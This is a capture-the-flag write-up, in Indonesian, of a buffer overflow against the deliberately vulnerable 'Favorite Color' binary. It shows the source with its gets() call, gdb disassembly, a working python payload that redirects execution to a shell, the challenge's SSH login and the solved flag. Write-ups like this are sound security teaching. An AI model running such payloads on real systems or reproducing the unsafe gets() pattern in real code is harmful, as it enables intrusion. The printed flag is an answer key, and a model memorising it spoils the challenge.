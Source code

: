 # Favorite Color (60 Points)
What's your favorite color? Would you like to share with me? Run the command: ssh color@104.131.79.111 -p 1001 (pw: guest) to tell me!
# Solved
Mari kita cek source nya
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int vuln() {
    char buf[32];

    printf("Enter your favorite color: ");
    gets(buf);

    int good = 0;
    for (int i = 0; buf[i]; i++) {
        good &= buf[i] ^ buf[i];
    }

    return good;
}

int main(char argc, char** argv) {
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());

    //disable buffering.
    setbuf(stdout, NULL);

    if (vuln()) {
        puts("Me too! That's my favorite color too!");
        puts("You get a shell! Flag is in flag.txt");
        system("/bin/sh");
    } else {
        puts("Boo... I hate that color! :(");
    }
}
```
Disini kita harus melakukan <b>Bufferoverflow</b> pada fungsi <b>vuln</b>
```
$ "A" * 48 | ./color
Enter your favorite color: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Boo... I hate that color! :(
Segmentation fault (core dumped)
```
Dilihat bahwa offset overflow nya adalah <b>48</b>, untuk mem-bypass fungsi dari good agar menjadi true saya menggunakan gdb untuk mencari address nya
```
Dump of assembler code for function main:
   0x0804864e <+111>:   call   0x804858b <vuln>
   0x08048653 <+116>:   test   %eax,%eax
   0x08048655 <+118>:   je     0x8048689 <main+170>
   0x08048657 <+120>:   sub    $0xc,%esp
   0x0804865a <+123>:   push   $0x804874c
   0x0804865f <+128>:   call   0x8048440 <puts@plt>
   0x08048664 <+133>:   add    $0x10,%esp
   0x08048667 <+136>:   sub    $0xc,%esp
   0x0804866a <+139>:   push   $0x8048774
   0x0804866f <+144>:   call   0x8048440 <puts@plt>
   0x08048674 <+149>:   add    $0x10,%esp
   0x08048677 <+152>:   sub    $0xc,%esp
   0x0804867a <+155>:   push   $0x8048799
   0x0804867f <+160>:   call   0x8048450 <system@plt>
   0x08048684 <+165>:   add    $0x10,%esp
   0x08048687 <+168>:   jmp    0x8048699 <main+186>
   0x08048689 <+170>:   sub    $0xc,%esp
   0x0804868c <+173>:   push   $0x80487a1
   0x08048691 <+178>:   call   0x8048440 <puts@plt>
   0x08048696 <+183>:   add    $0x10,%esp
   0x08048699 <+186>:   mov    $0x0,%eax
   0x0804869e <+191>:   lea    -0xc(%ebp),%esp
   0x080486a1 <+194>:   pop    %ecx
   0x080486a2 <+195>:   pop    %ebx
   0x080486a3 <+196>:   pop    %esi
   0x080486a4 <+197>:   pop    %ebp
   0x080486a5 <+198>:   lea    -0x4(%ecx),%esp
   0x080486a8 <+201>:   ret
```
Lihat pada address <b>0x08048655</b> jika kita berhasil melewati address ini maka kita dapat mengakses flag, tapi bagaimana ? ini exploit yang saya pakai
```
(python -c "print 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1111\x57\x86\x04\x08'"; cat) | ./color
```
```
$ (python -c "print 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1111\x57\x86\x04\x08'"; cat) | ./color
Enter your favorite color: Me too! That's my favorite color too!
You get a shell! Flag is in flag.txt
dir
color  color.c  flag.txt  Makefile
cat flag.txt
flag{c0lor_0f_0verf1ow}
```
Flag : <b>flag{c0lor_0f_0verf1ow}</b>
